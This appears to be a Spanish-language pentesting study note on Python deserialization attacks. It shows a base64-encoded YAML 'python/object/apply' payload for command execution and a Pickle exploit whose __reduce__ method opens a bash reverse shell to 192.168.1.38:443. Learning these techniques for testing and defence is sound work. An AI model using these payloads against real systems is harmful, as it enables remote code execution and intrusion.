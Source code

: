 ```bash
echo -n "eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==" | base64 -d; echo
```

Veríamos el output: `yaml: The information page is still under construction, updates coming soon!`, intuyendo así que por detrás corre YAML. Usando la página previamente mencionada veríamos que para intentar ejecutar comandos en un aplicativo que deserializa información yaml sin validaciones con el payload `!!python/object/apply:subprocess.check_output ['<command_to_execute>']`.

Pudiendo así ejecutar comandos a través de la explotación de la deserialización YAML en python haciendo lo siguiente: 

```bash
echo -n "yaml: !!python/object/apply:subprocess.check_output ['id']" | base64 -w 0; echo 
```

Y pegando la cadena de base64 como URL podríamos lograr un [[RCE - (Remote Command Execution)]]. 

----
# Pickle deserialization attack (Python)

Un **ataque de deserialización Pickle (DES-Pickle)** es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan la biblioteca Pickle para serializar y deserializar objetos. 

La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada Pickle que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada Pickle, puede permitir que un atacante inyecte código maliciosos en el objeto deserializado. 

###### Explotation
Supongamos que tenemos una app la cual recibe una cadena hexadecimal en un objeto serializado con Pickle, la convierte a texto legible y la guarda en un archivo sin ningún tipo de validación. 

En el proceso de deserialización, en Pickle, hay una función llamada **__reduce__** la cual podemos controlar para que a la hora de deserializar una data, podemos ingresar a nivel de sistema como queremos que se deserialize o como queremos que se ejecute. Por lo que a la hora de realizar un ataque de deserialización en Pickle mayormente crearíamos un archivo tal que así: 

```python
import pickle, os, binascii 
# binascii para poder convertir la cadena a hexadecimal.

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/192.168.1.38/443 0>&1"',))

if __name__ == "__main__": 
    print(binascii.hexlify(pickle.dumps(Exploit())))
```

Creamos una clase con la función **__reduce__** la cual retorna lo que nos interesa que devuelva, en este caso la ejecución de un comando a nivel de sistema. Para posteriormente pesarle a la función **pickle.dumps()** para mostrar por consola la data serializada (El comando a ejecutar a nivel de sistema). 
